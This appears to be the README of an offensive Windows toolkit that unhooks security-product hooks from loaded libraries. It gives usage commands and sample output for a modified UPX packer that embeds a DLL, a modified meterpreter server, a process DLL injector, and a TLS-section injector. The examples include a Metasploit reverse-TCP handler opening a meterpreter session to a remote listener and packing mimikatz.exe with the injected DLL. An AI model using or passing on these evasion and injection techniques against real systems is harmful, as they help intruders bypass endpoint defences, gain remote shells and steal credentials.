 # ReflectiveDLLRefresher

# Usage

## DLLRefresher
`DLLRefresher.exe` is a standalone test harness for scanning the process's memory space and unhooking the currently loaded libraries.

## UPX
The packaged UPX binaries have been modified to support an additional parameter (`-X <path/to/target.dll>`) to embed into the packed binary.  The final UPX packed binary will unpack the target executable in memory and call the embedded DLL before jumping into the executable's original entry point.

Usage:
```
upx -o <output filename> -X <path/to/embed.dll> <target executable>
```

Example:
```
upx -o packed_binary.exe -X ReflectiveDLL.x86.dll target_binary.exe
```

## Meterpreter
The `metsrv.dll` (and associated plugins in the `meterpreter` folder) is a modified meterpreter server which will unhook the currently loaded libraries before running meterpreter initalization.

Usage:

Copy all DLLs from the `meterpreter` folder into `metasploit-framework/data/meterpreter/` and get meterpreter execution on target as normal.

Example:
```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > run
[*] Started reverse TCP handler on 10.10.10.171:4444
[*] Starting the payload handler...
WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
[*] Sending stage (1195055 bytes) to 10.10.10.186
[*] Meterpreter session 1 opened (10.10.10.171:4444 -> 10.10.10.186:58657) at 2016-10-03 10:07:39 -0400
WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
meterpreter > WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used
```

## Inject
`Inject.exe` is a helper utilty to inject a given DLL into any process.

Usage:
```
Inject.exe <pid> <filename>
```

Example:
```
Inject.exe 2964 ReflectiveDLLRefresher.x86.dll
[+] Injected the 'ReflectiveDLLRefresher.x86.dll' DLL into process 2964.
```

## DLL
The DLL can be injected through a meterpreter session using the `post/windows/manage/reflective_dll_inject` module.

Usage:
```
msf > use post/windows/manage/reflective_dll_inject
msf post(reflective_dll_inject) > set PATH /path/to/ReflectiveDLLRefresher.x86.dll
msf post(reflective_dll_inject) > set SESSION <session-id>
msf post(reflective_dll_inject) > set PID <pid of meterpreter session>
msf post(reflective_dll_inject) > run
```

Example:
```
msf > use post/windows/manage/reflective_dll_inject
msf post(reflective_dll_inject) > set PATH /path/to/ReflectiveDLLRefresher.x86.dll
msf post(reflective_dll_inject) > set SESSION 1
msf post(reflective_dll_inject) > set PID 4068
msf post(reflective_dll_inject) > run

[*] Running module against WIN10DEV
[*] Injecting /root/ReflectiveDLLRefresher.x86.dll into 4068 ...
[*] DLL injected. Executing ReflectiveLoader ...
[+] DLL injected and invoked.
[*] Post module execution completed
```

## TLS Injector
`tlsInjector.py` is a modified veresion of Borja Merino's script to support reflective DLL injection.  It will take a reflective DLL and inject it into the TLS section of a 32-bit executable (64-bit is not supported).

Usage:
```
python tlsInjector.py -l <path/to/embed.dll> -f <target executable> -o <output filename> -t
```

Example:
```
python tlsInjector.py -l ReflectiveDLLRefresher.x86.dll -f mimikatz.exe -o mimikatz_tls.exe -t
```
